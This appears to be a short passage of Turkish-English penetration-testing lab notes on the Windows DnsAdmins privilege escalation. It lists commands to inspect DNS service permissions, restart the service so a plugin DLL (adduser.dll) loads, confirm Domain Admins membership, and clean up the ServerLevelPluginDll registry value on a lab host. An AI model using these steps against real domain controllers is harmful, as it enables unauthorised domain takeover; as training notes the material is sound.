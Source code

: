 ### **DNS Hizmetinde İzinleri Denetleme**

```cmd-session
sc.exe sdshow DNS
```


### **DNS Servisini Durdurma**

```cmd-session
sc stop dns
```


### **DNS Servisini Başlatma**

```cmd-session
sc start dns
```


### **Grup Üyeliğinin Onaylanması**

```cmd-session
net group "Domain Admins" /dom
```


---

## **Temizlik**  


### **Registry Key Eklendiğini Onaylama**  veya Görme

```cmd-session
reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
```


### Deleting Registry Key (adduser.dll --> ServerLevelPluginDll'de)

```cmd-session
reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll
```


### Starting the DNS Service Again

```cmd-session
sc.exe start dns
```

### Checking DNS Service Status

```cmd-session
sc query dns
```

---